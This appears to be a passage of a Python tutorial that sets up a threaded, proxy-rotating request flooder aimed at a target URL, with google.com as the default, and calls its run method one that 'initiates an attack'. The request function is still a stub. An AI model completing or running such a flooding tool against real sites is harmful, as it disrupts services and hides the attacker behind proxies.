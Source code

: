 To start, let's import some libraries, as well as set up the class that handles everything.

```python
import threading, time
from proxy_requests import ProxyRequests

class Main:
	def __init__(self, target='https://google.com', threadcount=20):
		"""Main initialization
		"""
		#keep track of the initial settings for this object
		self.threadcount = threadcount
		self.target = target
		
		self.completed = 0

		# a list of active threads, or None types. 
		self.threadslots = []
		# fill the slots up with blank space
		for i in range(self.threadcount): self.threadslots.append(None)
	
	def run(self):
		"""initiates an attack
		"""
		pass
		
	def make_request(self, slot_index):
		"""makes a request to the url
		"""
		pass

if __name__ == "__main__":
	Main().run()
```

So, what we have here is a simple class, that, when instantiated, will create a list to hold our threads.
`threadcount` is the number of threads we should have running at once, `target` is the URL we're sending requests to, `self.completed` is to keep track of how many threads have finished, and `self.threadslots` is a list, with a fixed size, and it will contain all the running threads. Let's go ahead and get the run function to work.

```python
class Main:
	def run(self):
		"""initiates an attack
		"""
		while self.completed < 500:
			for i, v in enumerate(self.threadslots):
				if v == None: #there is no active thread running here
					#make request
					thread = threading.Thread(target = self.make_request, args=(i, )) #i being the slot index
					self.threadslots[i] = thread
					thread.start()
			time.sleep(1)
```

